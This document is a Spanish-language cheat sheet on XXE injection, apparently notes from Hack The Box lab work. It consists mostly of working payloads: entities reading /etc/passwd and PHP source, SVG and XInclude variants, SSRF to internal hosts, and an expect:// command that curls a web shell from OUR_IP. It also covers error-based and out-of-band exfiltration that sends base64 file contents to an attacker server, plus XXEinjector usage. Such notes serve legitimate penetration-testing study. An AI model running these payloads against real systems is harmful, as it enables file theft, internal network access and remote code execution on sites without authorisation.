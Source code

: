 Siempre agregar las entidades luego de la declaración del XML!!!

### Idenificación

CUando encontramos alguna request que posea un xml, primero vemos si alguno de los datos de la misma se ve reflejado en la response.
Luego inyectamos en ese dato una nueva entidad:

    <!DOCTYPE "nombre" [
      <!ENTITY "variable" "dato de la entidad">
    ]>

Para llamar a la nueva entidad rellenamos el campo del xml con "&variable;" 
Si el formulario es vulnerable mostrará el dato de la entidad, de no serlo mostrará &variable;


#### Leer archivos del sistema:
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "file:///etc/passwd">
        ]>

#### Leer archivos mediante un svg:

#### creamos un svg con el siguiente contenido:


        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

##### Opción2:

        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

#### Obtener el código de la página php:
            <!DOCTYPE email [
          <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
        ]>



#### SSRF
podemos injectar ssrfs en el xml con el fin de alcanzar servicios internos no expuestos.

        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

#### XInclude

De a ratos nos encontramos con sitios que al hacer una request nos piden datos que luego serán parseados en el back-
end para agrergarse a un xml. ¿Cómo las distinguimos? No sabemos, simplemente hay que probar.
Para hacer una xxe, reemplazamos el parámetro que se está enviando por:

        <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

#### RCE:
##### 1)Si el módulo de php expect está instalado y permitido podríamos usar directamente: "expect://'comando'"

##### 2)Podemos generar una injección de una shell:
###### a)creamos la shell.php
###### b)Levantamos un servidor
###### c) inyectamos el siguiente código:
        <?xml version="1.0"?>
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
        ]>
        <root>
        <name></name>
        <tel></tel>
        <email>&company;</email>
        <message></message>
        </root>






### Lectura avanzada de archivos:

#### CDATA:

Nos permite engañar al backend tomando el contenido como raw:


Ejemplo no aplicable:

<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

Desde que se prohibió el joined como medio interno, nos vemos obligado a usarlo desde afuera:

LaPorota@htb[/htb]$ 

        echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

##### Injection
        <!DOCTYPE email [
          <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
          <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
          <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
          <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
          %xxe;
        ]>
        ...
        <email>&joined;</email> <!-- reference the &joined; entity to print the file content -->



### ERROR BASED XXE:

Probamos romper el xml en la request para ver como lo resuelve el backend.

Si el error nos brinda información sobre directorios o subdirectorios con rutas podemos:

#### Crear un dtd:
        <!ENTITY % file SYSTEM "file:///etc/hosts">
        <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

y luego referenciarlo desde la request:

        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %error;
        ]>




### Blind xxe
#### Out-of-band Data Exfiltration

cramos un xml en nuestro servidor:

        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
        <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

##### luego un index.php
        <?php
        if(isset($_GET['content'])){
            error_log("\n\n" . base64_decode($_GET['content']));
        }
        ?>

##### Levantamos el servidor php:
        php -S 0.0.0.0:8000

##### Inyectamos la entidad:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %oob;
        ]>
        <root>&content;</root>

##### Podemos automatizar el ataque con herramientas como xxeinjector:

        git clone https://github.com/enjoiz/XXEinjector.git


guardamos la request http que tenemos en burp a un archivo desde el inicio hasta la declaración del xml y agregamos xxeinject ej:

POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.201.94

Content-Length: 169

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.201.94

Referer: http://10.129.201.94/blind/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

        <?xml version="1.0" encoding="UTF-8"?>
        XXEINJECT

##### luego corremos la herramienta con:
        ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


